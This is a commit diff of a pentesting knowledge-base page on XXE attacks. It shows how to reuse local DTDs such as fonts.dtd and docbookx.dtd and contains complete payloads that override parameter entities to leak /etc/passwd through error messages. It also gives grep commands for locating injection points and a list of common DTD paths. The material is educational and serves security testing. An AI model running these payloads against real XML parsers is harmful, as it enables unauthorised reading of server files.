

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 1400 px high, scrolled down 38622 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -1233,40 +1233,56 @@
 
 Many system DTDs are publicly available for download. When you have access to the DTD file — either because it is distributed with a known package or available in its project repository — you can analyse it offline to find which parameter entities are safe to override.
 
-The process is straightforward. Open the DTD and look for declarations of the form `<!ENTITY % name ...>`. These are parameter entity definitions. The ones that are useful for injection are those whose value is **referenced inside other DTD declarations** — specifically inside `<!ELEMENT>` or `<!ATTLIST>` declarations. When an entity is used this way, redefining it before the DTD loads lets you inject arbitrary content into the declaration that references it.
-
-To find candidates quickly, grep for `%name;` patterns (where `name` matches a defined parameter entity) inside the body of other declarations:
+There are two distinct types of injectable parameter entities, and they require different payload structures. Identifying which type you are dealing with is the first step before building a payload.
+
+#### Declaration-Embedded Injection Points
+
+A parameter entity is a declaration-embedded injection point when it is referenced inside a markup declaration (like `<!ELEMENT>` or `<!ATTLIST>`):
+
+```xml
+<!ELEMENT test (%expr;)*>
+```
+
+The key signal is that the parameter entity (in this case `%expr;`) appears as part of a content model or attribute list — inside the body of a markup declaration. When you override this entity, the replacement text is injected mid-declaration. You must craft the value to break out of that declaration cleanly and repair the DTD syntax that follows.
+
+#### Root-Level Injection Points
+
+A parameter entity is a root-level injection point when it is referenced directly in the DTD body, outside any markup declaration:
+
+```
+<!ENTITY % ISOamso PUBLIC "..." "isoamso.ent">
+%ISOamso;
+```
+
+The key signal is that the paraneter entity (i. this case `%ISOamso;`) appears as a standalone expansion call at the root of the DTD. When you override this entity, the replacement text is injected directly at root level — where the parser expects standalone DTD declarations.
+
+#### Identifying Candidates with grep
+
+To find candidates quickly, run these two commands and cross-reference the output:
 
 ```bash
-grep -n 'ENTITY %' fonts.dtd          # list all parameter entity definitions
-grep -n '%[a-z]' fonts.dtd            # list all parameter entity references
-```
-
-Cross-referencing the two outputs shows which defined entities are actually used inside declarations — those are your injection points. In `fonts.dtd` for example, `%expr;` appears inside an `<!ELEMENT>` declaration, which is why overriding it with a payload that breaks out of the element syntax and injects new entity declarations works.
-
-An injectable entity looks like this in the DTD:
-
-```
-<!ELEMENT foo (%expr;)>
-```
-
-A non-injectable one looks like this — the entity is used only in the document body context or not referenced at all after its definition:
-
-```
-<!ENTITY % version "1.0">
-```
-
-The key signal is whether `%name;` appears inside a markup declaration. If it does, it is a candidate.
+grep -n 'ENTITY %' target.dtd     # list all parameter entity definitions
+grep -n '%[a-zA-Z]' target.dtd    # list all parameter entity references
+```
+
+For each entity that appears in both outputs, check the context of its reference:
+
+- If it appears inside a markup declaration like `<!ELEMENT foo (%expr;)*>` → **declaration-embedded injection point**
+- If it appears as a standalone call like `%ISOamso;` at the root of the DTD → **root-level injection point**
+
+When a DTD offers both types, root-level injection points tend to produce simpler payloads, though both are equally valid paths to exploitation.
+
+-----
 
 ### Common DTD Paths — Linux
 
 ```
 /usr/share/xml/fontconfig/fonts.dtd
+/usr/share/yelp/dtd/docbookx.dtd
 /usr/share/xml/docbook/schema/dtd/4.5/docbookx.dtd
 /usr/share/xml/xhtml/xhtml11-flat.dtd
 /usr/share/xml/svg11/svg11-flat.dtd
 /usr/share/sgml/docbook/ent/iso8879/ISOtech.ent
-/usr/share/iso8879/iso8879.ent
 /etc/xml/catalog
 /usr/local/etc/xml/catalog
 ```
@@ -1295,9 +1311,13 @@
 <message></message>
 ```
 
-Error-based feedback indicates successful DTD loading. If we get a different error than "No such file or directory" or no error at all we know the file exists.
+Error-based feedback indicates successful DTD loading. If we get a different error than “No such file or directory” or no error at all we know the file exists.
+
+-----
 
 ### Exploitation Using fonts.dtd
+
+`fonts.dtd` defines `%expr;`, which is referenced inside multiple `<!ELEMENT>` declarations — making it a declaration-embedded injection point. This requires structural padding to produce a syntactically valid payload.
 
 - **Step 1:** Load the Local DTD:
 
@@ -1310,7 +1330,7 @@
 ```
 
 - **Step 2:** Override Parameter Entities:
-  `fonts.dtd` defines entities like `%expr` that can be overridden. We redefine them to include our malicious logic:
+  `fonts.dtd` defines `%expr;` inside `<!ELEMENT>` declarations. We redefine it to break out of the enclosing declaration and inject our exfiltration chain. Note the `<!ELEMENT aa (bb'>` declaration at the end of the override — **this is the structural padding** that makes the payload syntactically valid when assembled with `fonts.dtd`. The mechanics behind it and how to derive equivalent padding for other DTDs are covered in [Dissecting the Structural Padding](#dissecting-the-structural-padding).
 
 ```xml
 <!DOCTYPE message [
@@ -1328,9 +1348,9 @@
 **Explanation:**
 
 1. `%file` loads the contents of `/etc/passwd` from the local filesystem.
-2. `%eval` creates a new parameter entity `%error` that references a non-existent file path concatenated with `%file` content.
-3. When the parser expands `%error`, it attempts to resolve the invalid path, triggering an error message that includes the contents of `/etc/passwd`.
-4. Note the `<!ELEMENT aa (bb'>` declaration at the end of the override — **this is the structural padding** that makes the payload syntactically valid when assembled with fonts.dtd. The mechanics behind it and how to derive equivalent padding for other DTDs are covered in section [Dissecting the Structural Padding](### Dissecting the Structural Padding).
+1. `%eval` creates a new parameter entity `%error` that references a non-existent file path concatenated with `%file` content.
+1. When the parser expands `%error`, it attempts to resolve the invalid path, triggering an error message that includes the contents of `/etc/passwd`.
+1. The structural padding `<!ELEMENT aa (bb'>` absorbs the remainder of the broken `<!ELEMENT>` declaration in `fonts.dtd`, keeping the assembled DTD syntactically valid.
 
 - **Step 3:** Trigger Error-Based Exfiltration:
   If the application returns error messages, the response will include something like:
@@ -1341,6 +1361,8 @@
 
 ### Dissecting the Structural Padding
 
+> This subsection applies to declaration-embedded injection points only. Root-level injection points expand outside any markup declaration and do not require structural padding.
+
 The structural padding — `<!ELEMENT aa (bb'>` — is not an arbitrary placeholder. Its exact form is derived from the DTD being exploited, and understanding why it looks the way it does is essential for adapting this technique to other DTDs.
 
 #### The Entity Value and the Role of the Single Quote
@@ -1355,13 +1377,13 @@
 
 #### The Injection Point in fonts.dtd
 
-When analysing `fonts.dtd`, we are looking for the **first relevant use site** of `%expr;` after its declaration — the first `<!ELEMENT>` or `<!ATTLIST>` body where `%expr;` is referenced, because that is where the parser will expand our override. Scanning the DTD in order, the first relevant use site is:
+When analysing `fonts.dtd`, we are looking for the **first relevant use site** of `%expr;` after its declaration — the first markup declaration body where `%expr;` is referenced, because that is where the parser will expand our override. Scanning the DTD in order, the first relevant use site is:
 
 ```
 <!ELEMENT test (%expr;)*>
 ```
 
-This is the declaration our override breaks open. `matrix` also references `%expr;` but appears later in the file — by the time the parser reaches it, the exfiltration logic has already executed.
+This is the declaration our override breaks open. The following section traces exactly how the parser assembles the payload from that point.
 
 #### How the Parser Assembles the Payload
 
@@ -1407,63 +1429,77 @@
 Three things happen here:
 
 1. **`<!ELEMENT test (aaa)>`** — the `(` that precedes `%expr;` in the original declaration plus the `aaa)>` from our override produce `(aaa)` — a perfectly balanced, syntactically valid content model. The parser closes the `test` declaration and moves on.
-
-2. **Exfiltration logic** — now sitting outside any enclosing declaration, the parser processes `%file` and `%eval` as independent DTD declarations, then drives the three-phase expansion chain that triggers the error-based exfiltration.
-
-3. **`<!ELEMENT aa (bb)*>`** — the `<!ELEMENT aa (bb` from our padding combines with the remainder of the original `test` declaration (`)*>`) to form a new, syntactically valid element declaration. The `(` opened by the padding is closed by `)`, and `*` is applied as the quantifier. The parentheses are perfectly balanced. Without the padding, the parser would encounter `)*>` with no opening context and reject it as malformed.
-
-#### The matrix Case
-
-`matrix` is worth examining separately because its declaration structure produces a different and more complex assembly. Its declaration is:
-
-```
-<!ELEMENT matrix ((%expr;), (%expr;), (%expr;), (%expr;))>
-```
-
-Here `%expr;` is preceded by a double open parenthesis `((`. When our override is expanded, the assembly becomes:
-
-```xml
-<!ELEMENT matrix ((aaa)>
-<!ENTITY % file SYSTEM "file:///etc/passwd">
-<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
-%eval;
-%error;
-<!ELEMENT aa (bb, (%expr;), (%expr;), (%expr;))>
-```
-
-Two differences stand out compared to the `test` case:
-
-- **`<!ELEMENT matrix ((aaa)>`** has unbalanced parentheses — the outer `(` is never closed. Whether this is tolerated depends entirely on the parser. The `matrix` case is parser-dependent and should not be treated as a clean or portable assembly path.
-
-- **`<!ELEMENT aa (bb, (%expr;), (%expr;), (%expr;))>`** — the padding absorbs a richer remainder. The `, (%expr;), (%expr;), (%expr;))>` tokens from the original declaration attach to `<!ELEMENT aa (bb`, forming a valid content model. The outer `)` of the original declaration closes the `(` opened by the padding, and the parentheses balance correctly.
-
-Prefer `test`-style injection points over `matrix`-style ones when building payloads for unknown or strict parser environments.
+1. **Exfiltration logic** — now sitting outside any enclosing declaration, the parser processes `%file` and `%eval` as independent DTD declarations, then drives the three-phase expansion chain that triggers the error-based exfiltration.
+1. **`<!ELEMENT aa (bb)*>`** — the `<!ELEMENT aa (bb` from our padding combines with the remainder of the original `test` declaration (`)*>`) to form a new, syntactically valid element declaration. The `(` opened by the padding is closed by `)`, and `*` is applied as the quantifier. The parentheses are perfectly balanced. Without the padding, the parser would encounter `)*>` with no opening context and reject it as malformed.
 
 #### Deriving the Padding for Other DTDs
 
-The shape of the padding depends entirely on what follows the first `%name;` use site in the target declaration — the remainder that the padding must absorb. The two cases are:
-
-**Case 1: Minimal remainder** — the declaration uses a quantifier (`*`, `+`, or `?`) directly after `%name;`, leaving only `)*>`, `)+>`, or `)?>`  as the remainder. This is the `test` and `edit` case in `fonts.dtd`. The padding opens a content model with a placeholder:
-
-```
-<!ELEMENT aa (bb
-```
-
-The assembled result is `<!ELEMENT aa (bb)*>` — a valid declaration with perfectly balanced parentheses. Prefer these injection points where possible.
-
-**Case 2: Rich remainder** — the declaration contains additional tokens after `%name;`, such as further `(%expr;)` references, commas, or nested parentheses. This is the `matrix` case. The same padding form applies, but the broken declaration will have unbalanced parentheses. Whether this is accepted depends on the target parser. Test explicitly before relying on this path.
-
-**The general process** for any DTD is:
-
-1. **Find the injection point.** Scan the DTD in order and locate the **first relevant use site** of `%name;` — the first `<!ELEMENT>` or `<!ATTLIST>` body where it is referenced after its declaration. This is where the parser will expand your override and where the exfiltration logic will execute.
-
-2. **Identify what precedes `%name;` in that declaration.** Count open parentheses and determine the minimum tokens needed to close them and terminate the declaration with `>`. This is the opening of your override value.
-
-3. **Identify what follows `%name;` in that declaration.** This is the leftover content your padding must absorb. Determine whether the remainder is minimal (Case 1) or rich (Case 2).
-
-4. **Construct the padding.** Open a new `<!ELEMENT name (placeholder` where `placeholder` is any valid XML name. Remember that the closing delimiter `'` of the entity value is not part of the injected content — the padding ends with `(placeholder`, and the remainder of the original declaration provides the closing `)`.
-
-5. **Verify the assembled output is valid DTD.** Mentally substitute your override into the original declaration and check that every resulting `<!ELEMENT>` and `<!ENTITY>` is syntactically complete. For Case 1 injection points, parentheses should balance cleanly. For Case 2, test against the target parser explicitly.
+When targeting a declaration-embedded injection point in a different DTD, the padding must be derived from the specific declaration that contains the entity reference. The process is:
+
+1. **Find the injection point.** Scan the DTD in order and locate the **first relevant use site** of the target entity — the first markup declaration body where it is referenced after its definition. This is where the parser will expand your override and where the exfiltration logic will execute.
+1. **Identify what precedes the entity reference in that declaration.** Count open parentheses and determine the minimum tokens needed to close them and terminate the declaration with `>`. This is the opening of your override value.
+1. **Identify what follows the entity reference in that declaration.** This is the remainder your padding must absorb. Look for injection points where this remainder is minimal — ideally just a quantifier (`*`, `+`, or `?`) followed by `>`, leaving only `)*>`, `)+>`, or `)?>`  as the leftover. These produce clean, balanced assemblies.
+1. **Construct the padding.** Open a new `<!ELEMENT name (placeholder` where `placeholder` is any valid XML name. Remember that the closing delimiter `'` of the entity value is not part of the injected content — the padding ends with `(placeholder`, and the remainder of the original declaration provides the closing `)`.
+1. **Verify the assembled output is valid DTD.** Mentally substitute your override into the original declaration and check that every resulting `<!ELEMENT>` and `<!ENTITY>` is syntactically complete. Parentheses should balance cleanly. If they do not, choose a different injection point.
+
+-----
+
+### Exploitation Using docbookx.dtd
+
+Both techniques exploit the same fundamental mechanism — overriding a parameter entity to inject the exfiltration chain into an external DTD context where parameter entity chaining is permitted. The difference is purely structural: with a root-level injection point the overridden entity expands outside any markup declaration, so no declaration needs breaking open and no padding is required.
+
+`docbookx.dtd` defines a set of ISO character entity sets as parameter entities that are expanded directly at root level:
+
+```
+<!ENTITY % ISOamso PUBLIC "..." "isoamso.ent">
+%ISOamso;
+```
+
+`%ISOamso;` is a root-level injection point. Overriding it injects the exfiltration logic directly into the DTD body as standalone declarations.
+
+- **Step 1:** Load the Local DTD:
+
+```xml
+<!DOCTYPE message [
+  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
+  %local_dtd;
+]>
+<message></message>
+```
+
+- **Step 2:** Override the Root-Level Entity:
+  We redefine `%ISOamso;` with the exfiltration chain directly. No structural padding is needed — the replacement text is injected at root level where standalone DTD declarations are valid.
+
+  Note that the entity value **must** be delimited by single quotes. The exfiltration declarations inside the value use double quotes (`SYSTEM "..."`) — using double quotes as the outer delimiter would cause the parser to close the entity value at the first `"` it encounters inside the payload. The single quote `'` that ends the payload closes the entity value opened at the start of the `%ISOamso` declaration.
+
+```xml
+<!DOCTYPE message [
+    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
+    <!ENTITY % ISOamso '
+        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
+        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
+        &#x25;eval;
+        &#x25;error;
+    '>
+    %local_dtd;
+]>
+<message></message>
+```
+
+**Explanation:**
+
+1. `%ISOamso;` is normally expanded at root level in `docbookx.dtd` to load a character entity set. We redefine it to inject the exfiltration chain instead.
+1. Because the injection happens at root level, the three-phase chain — `%file`, `%eval`, `%error` — lands directly in the DTD body as independent declarations. No declaration needs breaking open and no remainder needs absorbing.
+1. `%eval;` produces the declaration of `%error`, and `%error;` triggers the URI resolution error that leaks the file contents — identical to the `fonts.dtd` case.
+
+- **Step 3:** Trigger Error-Based Exfiltration:
+  If the application returns error messages, the response will include something like:
+
+```
+errorMessage: "/nonexistent/root:x:0:0:root:/root:/bin/bash"
+```
+
+-----
 
 ### Requirements for Robust Payloads
 
@@ -1473,9 +1509,9 @@
 
 - The injected payload must maintain a syntactically valid DTD.
 - All markup declarations (`<!ELEMENT>`, `<!ENTITY>`) must appear in a proper order.
-- If the included DTD (`%local_dtd;`) contains markup declarations, use a **dummy element** (e.g., `<!ELEMENT aa (bb'>`) to absorb conflicts and prevent parser errors.
-
-2. **Correct Entity Nesting and Escaping**
+- For declaration-embedded injection points, use structural padding (e.g., `<!ELEMENT aa (bb'>`) to absorb the remainder of the broken declaration and prevent parser errors. Root-level injection points do not require padding.
+
+1. **Correct Entity Nesting and Escaping**
 
 - Nested entity declarations inside another entity must be properly escaped:
   - Use `&#x25;` for `%`, `&#x26;` for `&` and `&#x27;` for quotes.
@@ -1484,30 +1520,34 @@
     ```xml
     <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///path/%file;'>">
     ```
-
   - Failure to escape these characters often results in **markup declaration errors**.
 
-3. **Order of Expansion**
-
-  - Override entities must be declared before `%local_dtd;` is expanded — the internal subset is processed first, so any overrides must be in place before the external DTD is loaded.
-  - Once `%local_dtd;` is expanded, the parser reaches the first relevant use site of `%expr;` and injects the exfiltration chain into the DTD. Within that injected text, `%eval;` is expanded inline — its expansion produces the declaration of `%error`. Immediately after, `%error;` is expanded, triggering the URI resolution that leaks the file contents.
-  - The entire chain executes automatically as part of `%local_dtd;` processing. Explicitly expanding `%eval;` or `%error;` in the internal subset is neither possible nor necessary — and attempting to do so would cause the parser to reject the payload due to the parameter entity chaining restriction in the internal subset.
-
-4. **Include a Structural Padding**
-
-- When including external DTDs, add a placeholder declaration like:
+1. **Order of Expansion**
+
+- Override entities must be declared before `%local_dtd;` is expanded — the internal subset is processed first, so any overrides must be in place before the external DTD is loaded.
+- Once `%local_dtd;` is expanded, the parser reaches the first relevant use site of the overridden entity and injects the exfiltration chain into the DTD. Within that injected text, `%eval;` is expanded inline — its expansion produces the declaration of `%error`. Immediately after, `%error;` is expanded, triggering the URI resolution that leaks the file contents.
+- The entire chain executes automatically as part of `%local_dtd;` processing. Explicitly expanding `%eval;` or `%error;` in the internal subset is neither possible nor necessary — and attempting to do so would cause the parser to reject the payload due to the parameter entity chaining restriction in the internal subset.
+
+1. **Include Structural Padding for Declaration-Embedded Injection Points**
+
+- When the overridden entity is referenced inside a markup declaration (like `<!ELEMENT>` or `<!ATTLIST>`), add a padding declaration to absorb the remainder of the broken declaration:
 
 ```xml
   <!ELEMENT aa (bb'>
 ```
 
-- This prevents syntax conflicts when the external DTD introduces new declarations.
-
-5. **Use Parameter Entities for Injection**
+- The exact form of the padding depends on the target DTD. Refer to [Dissecting the Structural Padding](#dissecting-the-structural-padding) for the derivation process.
+- Root-level injection points do not require padding.
+
+1. **Use Single Quotes as Entity Value Delimiters**
+
+- The exfiltration declarations inside the entity value use double quotes (`SYSTEM "..."`). The outer entity value delimiter must therefore be single quotes to avoid the parser closing the entity value prematurely at the first `"` it encounters. This applies to both injection types.
+
+1. **Use Parameter Entities for Injection**
 
 - Always use **parameter entities** (`%`) for overriding and chaining.
 
-6. **Error-Based Exfiltration Logic**
+1. **Error-Based Exfiltration Logic**
 
 - Reference a non-existent file concatenated with the target file content.
 - Example:
@@ -1516,10 +1556,11 @@
     <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
 ```
 
-7. **Compatibility with Target DTD**
+1. **Compatibility with Target DTD**
 
 - The chosen local DTD must allow parameter entity overrides.
-- Common candidates: `fonts.dtd`, `docbook.dtd`, `jspxml.dtd`
+- Common candidates with declaration-embedded injection points: `fonts.dtd` (`%expr;`), `jspxml.dtd` (`%Body;`)
+- Common candidates with root-level injection points: `docbookx.dtd` (`%ISOamso;` and other ISO entity sets)
 
 ### Why This Technique Works
 
@@ -1527,7 +1568,7 @@
 
 This technique sidesteps that restriction entirely. Rather than chaining parameter entities inside the internal subset, we use the internal subset only to **redefine** an entity that already exists in the local DTD. Because entity declarations follow a first-definition-wins rule, our override takes effect before the original declaration in the DTD is reached.
 
-When `%local_dtd;` is then expanded, execution moves into the external DTD context — where parameter entity chaining is explicitly permitted by the spec. The malicious logic embedded inside `%expr` executes there, not in the internal subset, which is why spec-compliant parsers do not reject it.
+When `%local_dtd;` is then expanded, execution moves into the external DTD context — where parameter entity chaining is explicitly permitted by the spec. The malicious logic embedded inside the overridden entity executes there, not in the internal subset, which is why spec-compliant parsers do not reject it. This holds true for both injection types — the type determines the payload structure, not the underlying mechanism.
 
 ## DNS-Based OOB Exfiltration
 
````
